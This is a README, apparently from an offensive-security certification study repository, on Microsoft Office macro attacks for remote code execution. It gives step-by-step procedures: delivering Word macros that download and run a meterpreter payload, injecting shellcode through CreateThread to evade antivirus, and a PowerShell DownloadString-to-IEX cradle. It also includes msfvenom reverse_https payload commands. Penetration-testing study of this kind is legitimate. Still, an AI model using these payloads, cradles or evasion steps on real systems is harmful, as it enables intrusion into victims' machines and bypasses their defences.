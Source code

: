 ### Microsoft Office Attacks.

The client-side attacks based on Microsoft Office's programs is a type of attack that involves the macros feature of Microsoft Office tools in a procedure that leads to RCE on victim's host.

In this repository we can find some scripts and procedures to craft and test macros that run arbitrary code when this gets open, but the are three main ways to gain RCE leveraging this scripts.

<br>

### Simple VBA way.

The simply VBA way works with in an enviroment with no AV or EDR mechanism enabled.

1. We craft a meterpreter executable with the help of [msfvenomPayloads.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/msfvenomPayloads.sh) script.

2. Then, we make use of [PSHTTPDownloader.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/PSHTTPDownloader.vba) in order to download and store in the victim machine the msfvenom payload we crafted before and then we execute it. 

3. Finally, with the contents PSHTTPDownloader.vba properly formed, we make a [macro](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/README.md) on a Word document and deliver the document. 

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).

Is worth to mention that, because we store the malware on the hard disk (since we download a binary), an AV can detect malicious hash on this file and because we simply execute the payload, we create a new process that is checked by the AV before it get properly executed so is also suscetible to be caneceled.

Thus, we terminate this part by saying that this method of gain RCE on a machine is highly insecure.

<br>

### Inyecting shellcode on an existing process.

There are more sofistaced ways to gain RCE that avoids defense mechanism, here we will see two; with VBA and with PowerShell mixed with VBA.

<br>

#### The VBA way.

We can directly create a macro that stores a shellcode and execute it.

1. First we create a Shellcode for a 'vbaapplication' making use of [ShellCode.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/ShellCode.sh)

    ```shell
    msfvenom -p windows/meterpreter/reverse_https LHOST=<IP> LPORT=<LPORT> EXITFUNC=thread -f vbapplication
    ```

2. Then, make use of the [ShellCode.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/ShellCode.vba) and paste on it the crafted shellcode replacing the *buf* variable. 

3. With the ShellCode.vba finished, we make a [macro](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/README.md) on a Word document and deliver the document.

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).


This method is kind of more reliable than the one before because the ShellCode.vba make use of a Win32 API; *CreateThread*, that creates an execution thread on the current process (inyecting code) effectively bypassing the execution process cheking by the AV that only happens at the launching of a new process. 

However, this still a dangerous way because we still storing malicious code on the hardisk; the proper shellcode.vba macro.

<br>

#### Make use of PowerShell resources.

We can execute the code of a remote script by using some Powershell methods.

1. First we craft our shellcode with the help of [ShellCode.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/ShellCode.sh) file for a 'ps1' application, this is:

    ```shell
    msfvenom -p windows/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f ps1
    ```
2. Once we craft it, we paste it in the '$buf' variable of [VBAenvlauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1) or [InyectionShellcode.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/InyectionShellcode.ps1) script.

3. Then, we make use of [LaunchinApp_Shell.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/LaunchinApp_Shell.vba) to execute a PowerShell program that downloads and executes the prepared VBAenvlauncher.ps1 script. The line stored on the *str* var must be:

    ```powershell
    powershell (New-Object System.Net.WebClient).DownloadString('<URL>') | IEX
    ```

    Replacing the \<URL\> with the proper vaules.

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).

Thus, we inyect in the flow of execution of an existing proces the contents of a script which not exist on the current system soc cannot be detected with the AV.

The rest of scripts present on this repository are only to help the reader to understand the main scripts necesary to perform the operation. 

<br>